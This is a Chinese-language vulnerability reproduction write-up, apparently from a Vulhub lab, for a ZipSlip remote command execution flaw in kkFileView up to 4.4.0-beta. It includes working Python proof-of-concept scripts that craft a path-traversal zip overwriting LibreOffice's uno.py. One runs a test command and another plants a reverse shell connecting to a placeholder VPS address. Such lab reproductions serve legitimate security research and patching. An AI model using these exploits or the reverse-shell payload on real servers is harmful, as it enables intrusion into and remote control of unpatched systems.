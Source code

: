 # kkFileView ZipSlip 远程命令执行漏洞

## 漏洞描述

kkFileView 是使用 Spring Boot 搭建的文档在线预览解决方案，能够支持多种主流办公文档的在线预览，如 doc、docx、xls、xlsx、ppt、pptx、pdf、txt、zip、rar 等格式。此外，还可以预览图片、视频、音频等多种类型的文件。

在 kkFileView 4.4.0-beta 以前，存在一处 ZipSlip 漏洞。攻击者可以利用该漏洞，向服务器任意目录下写入文件，导致任意命令执行漏洞。

参考链接：

- https://github.com/kekingcn/kkFileView/issues/553
- https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC

## 披露时间

```
2024-04-15
```

## 漏洞影响

```
v4.2.0 <= kkFileView <= v4.4.0-beta
```

## 环境搭建

Vulhub 执行如下命令启动一个 kkFileView 3.4.0 服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8012`即可查看到首页。

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419210738761.png)

## 漏洞复现

目标在使用 odt 转 pdf 时会调用系统的 Libreoffice，而该进程会调用库中的 `uno.py` 文件，因此可以覆盖 `uno.py` 文件的内容实现 RCE。

首先，修改 [poc.py](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/poc.py)：

```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'vulhub'
        binary2 = b"import os\nos.system('touch /tmp/success')\n"
        zipFile = zipfile.ZipFile("test.zip", "a", zipfile.ZIP_DEFLATED)
        # info = zipfile.ZipInfo("test.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

执行 `poc.py`，生成 POC 文件，`test.zip` 将被写入当前目录。

```
python poc.py
```

然后，使用 kkFileView 服务上传`test.zip`：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212103511.png)

点击`test.zip`的“预览”按钮，可以看到 zip 压缩包中的文件列表：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212029664.png)

最后，上传任意一个 odt 文件，例如 [sample.odt](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/sample.odt)，发起 Libreoffice 任务：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212226172.png)

点击`sample.odt`的“预览”按钮，触发代码执行漏洞：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212315976.png)

可见，`touch /tmp/success`已经成功被执行：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212427494.png)

反弹 shell：

```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'whoami'
        binary2 = b'import socket,subprocess,os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("<your-vps-ip>",8888));os.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\np=subprocess.call(["/bin/sh","-i"])\n'
        zipFile = zipfile.ZipFile("exp.zip", "a", zipfile.ZIP_DEFLATED)
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419220258376.png)

## 漏洞修复

- https://github.com/kekingcn/kkFileView/commit/421a2760d58ccaba4426b5e104938ca06cc49778
